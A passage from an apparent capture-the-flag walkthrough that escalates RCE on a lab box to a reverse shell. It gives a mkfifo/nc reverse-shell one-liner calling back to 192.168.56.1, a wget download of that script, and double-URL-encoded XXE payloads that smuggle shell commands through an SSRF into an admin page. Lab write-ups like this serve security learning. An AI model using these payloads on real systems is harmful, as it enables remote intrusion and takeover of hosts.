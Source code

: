Now we have the RCE, we can execute our commands. I tried the `nc -e /bin/sh IP PORT` to get reverse shell but that didn't work.

Now here are two ways to do it:

* Generate shell via msfvenom and then wget it and listen via nc or msfconsole. - suggested by [@theart42]()
* Make a shell script having reverse shell code, wget it on the server, chmod it and then execute. - suggested by [@4ndr34z]()

I did the 2nd way.

I made a file name `shell` with the following content

```bash
mkfifo /tmp/grpoa; nc 192.168.56.1 1337 0</tmp/grpoa | /bin/sh >/tmp/grpoa 2>&1; rm /tmp/grpoa
```

Now do the following:


* `wget http://192.168.56.1:8000/shell`


```
auth=<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE creds [ <!ELEMENT creds ANY ><!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=http://127.0.0.1/scarecrow/personal_secret_admin_page.php?ip=192.168.56.118%250Awget%2520http%253A%252F%252F192.158.56.1%253A8000%252Fshell' >]><creds><user>%26xxe;</user><pass>pass</pass></creds>

```

* `chmod +x shell`

```
auth=<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE creds [ <!ELEMENT creds ANY ><!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=http://127.0.0.1/scarecrow/personal_secret_admin_page.php?ip=192.168.56.118%250Achmod%2520%252Bx%2520shell' >]><creds><user>%26xxe;</user><pass>pass</pass></creds>
```

* `./shell` while `nc` listener is running

```
auth=<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE creds [ <!ELEMENT creds ANY ><!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=http://127.0.0.1/scarecrow/personal_secret_admin_page.php?ip=192.168.56.118%250A.%252Fshell' >]><creds><user>%26xxe;</user><pass>pass</pass></creds>
```

__NOTE__: All the data is __DOUBLE__ Url encoded. Also we have to do this on `/login.php` and not on `/scarecrow/personal_secret_admin_page.php`. I wasted few hours trying payload there. 🤦‍♂️

If everything is done properly we'll have a shell

![](images/scare/rev.png)
